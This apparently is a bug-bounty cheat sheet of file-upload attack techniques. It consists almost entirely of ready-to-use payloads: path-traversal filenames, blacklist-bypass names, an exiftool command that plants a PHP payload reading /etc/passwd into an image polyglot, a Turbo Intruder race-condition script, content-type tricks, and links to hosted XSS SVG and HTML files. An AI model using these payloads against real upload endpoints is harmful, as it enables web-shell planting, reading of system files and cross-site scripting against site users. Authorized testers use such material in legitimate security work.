 # Upload Files

## Directory Traversal
```http
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
Content-Disposition: form-data; name="avatar"; filename="..%2exploit.php"
```
## Content-Type
Content-Type to image/jpeg.

## Extension blacklist bypass

```http
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
```

## Metadata
```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```
## Race condition

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

## Test metadata
Upload xss_comment_exif_metadata_double_quote.png
```http
Content-Type:image/png - Content-Type: text/html
```
##### Reference: https://hackerone.com/reports/964550

## If is possible to change src=
Add urls:
* https://angeljuanma.github.io/bug-bounty/evil.svg
* https://angeljuanma.github.io/bug-bounty/xss.svg
* https://angeljuanma.github.io/bug-bounty/xss.html

## cannot be displayed

The image "" cannot be displayed because it contains errors.

use:

```
curl -s -X GET "https://domain.com/uploads/aJEa412rsdfgF"
```


